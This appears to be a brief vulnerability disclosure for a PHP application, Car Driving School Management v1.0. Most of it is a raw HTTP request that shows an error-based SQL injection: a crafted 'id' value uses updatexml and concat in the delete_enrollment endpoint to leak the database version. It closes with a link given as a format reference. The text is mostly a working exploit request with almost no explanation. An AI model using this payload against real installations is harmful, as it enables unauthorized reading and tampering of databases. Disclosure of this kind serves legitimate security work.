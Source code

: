 # The parameter on Car Driving School Management v1.0


```sql
POST /cdsms/classes/Master.php?f=delete_enrollment HTTP/1.1
Host: 192.168.1.19
Content-Length: 64
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/cdsms/admin/?page=enrollees
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=af11d32584nvu0nvjbakb00q8h
Connection: close

id=1' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/159834499-c5a75a37-d93a-4d91-9d00-9d435851c8a6.png)


参考这个格式：https://github.com/nu11secur1ty/CVE-mitre/tree/main/2022/CVE-2022-24571
